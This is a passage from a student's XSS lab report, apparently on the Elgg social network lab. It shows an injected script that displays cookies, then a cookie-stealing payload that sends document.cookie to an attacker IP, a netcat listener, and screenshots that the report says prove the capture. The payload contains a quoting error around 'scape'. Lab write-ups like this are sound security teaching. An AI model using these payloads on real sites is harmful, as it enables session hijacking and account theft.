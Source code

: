 <img style="width:75%; padding-left:12.5%; align-self:centre;" src="https://codimd.s3.shivering-isles.com/demo/uploads/upload_f1249fbf6446ae97be27d578e6088274.png"/>


We also tried to directly insert the code `<script>alert(document.cookie);</script>`. As the image shows, it also worked.  

<img style="width:75%; padding-left:12.5%; align-self:centre;" src="https://codimd.s3.shivering-isles.com/demo/uploads/upload_fe6c20031ba1210c88eea2f7aae87748.png"/>


(PS. the popped-out values were different because we changed the login account from Alice to Samy)

<div style="page-break-after: always;"></div>

## TASK03: Stealing Cookies from the Victim’s Machine

### 3.1 Update the Brief Description

We update Samy's **Brief Description** with the following codes. 
``` javascript
<script>
    // 10.0.2.15 is IP address of the attacker
    document.write(
        "<img src=http://10.0.2.15:5555?c=" 
        + "scape(document.cookie)" + ">"
    );
    alert(document.cookie);
</script>
```

### 3.2 Listening from attacker

We used the `netcat` command with "-l" option to listening the data send to attacker. The command are listed in section below. 
```shell 
$ nc -l 5555 -v
```

### 3.3 Stealing cookie when some accessed the profile

We logged-in with Alice's account, and then accessed Samy's profile. The image below shows the webpage after Alice accessing.  

<img style="width:75%; padding-left:12.5%; align-self:centre;" src="https://codimd.s3.shivering-isles.com/demo/uploads/upload_a1749e8855953aadad7abc0c0f58dfd1.png"/>

The image below is the output of `netcat` command, which proven that the attacker obtained the data in cooke. (Value for `Elgg` is same with that in popped-up dialog box)  

<img style="width:75%; padding-left:12.5%; align-self:centre;" src="https://codimd.s3.shivering-isles.com/demo/uploads/upload_b7253fe295af53901abbc5adebb4923f.png"/>

<div style="page-break-after: always;"></div>


## TASK04: Becoming the Victim’s Friend

